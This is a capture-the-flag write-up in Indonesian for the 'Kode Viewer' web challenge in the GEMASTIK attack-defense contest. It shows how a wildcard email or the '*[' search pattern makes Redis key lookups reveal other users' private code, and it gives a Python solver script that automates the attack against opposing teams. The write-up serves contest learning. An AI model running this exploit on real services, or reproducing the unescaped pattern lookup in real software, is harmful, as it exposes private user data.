




# Kode Viewer

**Category**: Web  
**Points**: -  
**Difficulty**: -  

## Solution
## **Tahap Penyerangan**

Diberikan sebuah soal berikut,   


Diberikan sebuah *challenge* website dengan fitur untuk menyimpan kode pada *server*. Kode bisa di atur untuk menjadi *public* maupun *private*. Tugas kita adalah untuk mendapatkan kode privat yang akan di-tambahkan oleh problem setter.  
 
 
Sayangnya, secara default hanya kode *public* dan privat (milik diri sendiri) saja yang bisa dilihat.   
 


Kode yang rentan terdapat pada dua implementasi redis berikut:  


Untuk fungsi **list**, serangan bisa dilakukan dengan melakukan registrasi dengan email bintang. Sehingga nantinya redis akan mencari semua *key* yang memiliki prefix **kode**.


   
Seperti dapat dilihat pada gambar diatas, akun dengan email **\*\*\*** bisa melihat kode privat dari user beluga.

Sedangkan untuk fungsi **find**, serangan bisa dilakukan dengan menggunakan karakter ( \***\[** ) sehingga nantinya semua *key* bisa dimunculkan. Karakter ini kami dapatkan dengan cara melakukan *fuzzing*.  


Pada saat perlombaan berlangsung, kami hanya menggunakan teknik ke-2 untuk mendapatkan flag dari team lain. Kami tidak menggunakan teknik pertama karena 18/19 team masih rentan terhadap serangan kami.

Berikut merupakan script solver yang kami gunakan:

```python
import sys
import requests
ip = sys.argv[1]


url = f"http://{ip}:10000/auth/register"
r = requests.session()
r.post(url, data={"email": "wrth@wrth123.com", "password": "a"})


url = f"http://{ip}:10000/auth/login"


r.post(url, data={"email": "wrth@wrth123.com", "password": "a"})
res = r.get(f"http://{ip}:10000/kode?pattern=*[")


base = f"http://{ip}:10000"
from bs4 import BeautifulSoup
soup = BeautifulSoup(res.text, "html.parser")
for a in soup.find_all("a"):
   if "auth/logout" in a.get("href"):
       continue
   res = r.get(base+a.get("href"))
   if "GEMASTIK" in res.text:
       print(base+a.get("href"))
       print(res.text)
```